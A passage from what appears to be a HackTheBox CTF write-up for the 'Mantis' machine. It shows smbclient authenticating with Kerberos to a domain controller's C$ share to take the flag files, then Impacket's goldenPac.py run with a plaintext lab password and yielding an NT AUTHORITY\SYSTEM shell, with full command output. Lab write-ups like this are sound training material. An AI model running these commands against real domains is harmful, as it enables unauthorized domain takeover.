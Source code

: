     root@kali# smbclient -W htb.local //mantis/c$ -k
    Try "help" to get a list of possible commands.
    smb: \> dir
      $Recycle.Bin                      DHS        0  Fri Sep  1 10:19:03 2017
      Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
      inetpub                             D        0  Fri Sep  1 09:41:09 2017
      pagefile.sys                      AHS 2146951168  Wed Sep  2 16:33:23 2020
      PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
      Program Files                      DR        0  Sat Dec 23 22:28:26 2017
      Program Files (x86)                DR        0  Fri Sep  1 14:28:51 2017
      ProgramData                        DH        0  Fri Sep  1 09:16:24 2017
      Recovery                          DHS        0  Fri Sep  1 01:39:12 2017
      System Volume Information         DHS        0  Thu Aug 31 20:02:33 2017
      Users                              DR        0  Fri Sep  1 10:19:01 2017
      Windows                             D        0  Sat Dec 23 22:31:49 2017

                    5480959 blocks of size 4096. 288821 blocks available



I can grab both flags:



    smb: \> get Users\james\desktop\user.txt
    getting file \Users\james\desktop\user.txt of size 32 as Users\james\desktop\user.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

    smb: \> get Users\administrator\desktop\root.txt
    getting file \Users\administrator\desktop\root.txt of size 32 as Users\administrator\desktop\root.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)



### Shell

Impacket has a script, `goldenPac.py` which will do all of this and
return a shell:



    root@kali# goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

    [*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
    [*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
    [*] Attacking domain controller mantis.htb.local
    [*] mantis.htb.local found vulnerable!
    [*] Requesting shares on mantis.....
    [*] Found writable share ADMIN$
    [*] Uploading file IGiaSrqf.exe
    [*] Opening SVCManager on mantis.....
    [*] Creating service jAFc on mantis.....
    [*] Starting service jAFc.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system







